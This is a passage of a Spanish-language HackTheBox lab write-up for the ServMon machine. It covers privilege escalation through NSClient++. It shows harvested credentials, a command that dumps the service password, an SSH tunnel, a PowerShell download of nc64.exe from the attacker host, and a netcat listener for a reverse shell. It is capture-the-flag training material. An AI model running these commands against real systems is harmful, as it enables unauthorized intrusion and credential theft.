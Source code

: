
```crackmapexec
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk
```

Uso las credenciales para conectarme por ssh y obtengo la flag user.txt

# Escalada de Privilegios [#](privesc) {#privesc}

----

## NSClient++[👽](#nsclient) {#nsclient}

Para escalar recordemos que tenemos una vulnerabilidad en el servidor NSClient++

Pero antes enumero el servidor web a través de la sesión ssh que tenemos activa busacando la carpeta de instalación del servidor.

Seguimos los pasos de la escalada.

> Obtener la contraseña de acceso del servidor.  

```ssh
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

> Sólo se puede acceder a través de localhost, de forma que debemos crear un túnel ssh para poder conectarnos.

```bash
ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
```

Accedo, inicio sesión y sigo los pasos para escalar privilegios.

Los módulos ya estaban activados.

> Subir el archivo nc.exe a la ruta programdata de la máquina víctima

```win
powershell wget http://10.10.14.13:8000/nc64.exe -outfile nc64.exe
```

> Una vez subido abrimos un oyente de netcat en el puerto configurado 

```bash
nc -lnvp 443
```

> Y desde el navegador nos dirigimos a _modules_

![](/assets/images/HTB/Servmon-HackTheBox/privesc1.png)
